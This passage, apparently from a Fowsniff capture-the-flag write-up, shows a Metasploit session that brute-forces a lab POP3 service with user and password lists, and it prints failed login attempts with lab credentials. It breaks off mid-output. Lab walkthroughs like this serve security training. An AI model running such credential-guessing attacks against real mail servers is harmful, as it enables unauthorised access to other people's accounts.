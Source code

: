 We can use Metasploit's `pop3_login` module to brute force the POP3 service using the credentials found previously.

~~~
kali@kali:/data/Fowsniff_CTF/files$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > use auxiliary/scanner/pop3/pop3_login 
msf5 auxiliary(scanner/pop3/pop3_login) > show options

Module options (auxiliary/scanner/pop3/pop3_login):

   Name              Current Setting                                                    Required  Description
   ----              ---------------                                                    --------  -----------
   BLANK_PASSWORDS   false                                                              no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                  yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                              no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                              no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                              no        Add all users in the current database to the list
   PASSWORD                                                                             no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  no        The file that contains a list of probable passwords.
   RHOSTS                                                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             110                                                                yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                              yes       Stop guessing when a credential works for a host
   THREADS           1                                                                  yes       The number of concurrent threads (max one per host)
   USERNAME                                                                             no        A specific username to authenticate as
   USERPASS_FILE                                                                        no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                              no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/unix_users.txt      no        The file that contains a list of probable users accounts.
   VERBOSE           true                                                               yes       Whether to print output for all attempts

msf5 auxiliary(scanner/pop3/pop3_login) > set rhost 10.10.137.20
rhost => 10.10.137.20
msf5 auxiliary(scanner/pop3/pop3_login) > set user_file /data/Fowsniff_CTF/files/usernames.txt
user_file => /data/Fowsniff_CTF/files/usernames.txt
msf5 auxiliary(scanner/pop3/pop3_login) > set pass_file /data/Fowsniff_CTF/files/passwords.txt
pass_file => /data/Fowsniff_CTF/files/passwords.txt
msf5 auxiliary(scanner/pop3/pop3_login) > run

[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mauer:mailcall', '-ERR [AUTH] Authentication failed.'
[!] 10.10.137.20:110      - No active DB -- Credential data will not be saved!
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mauer:bilbo101', '-ERR [AUTH] Authentication failed.'
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mauer:apples01', '-ERR [AUTH] Authentication failed.'
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mauer:skyler22', ''
~~~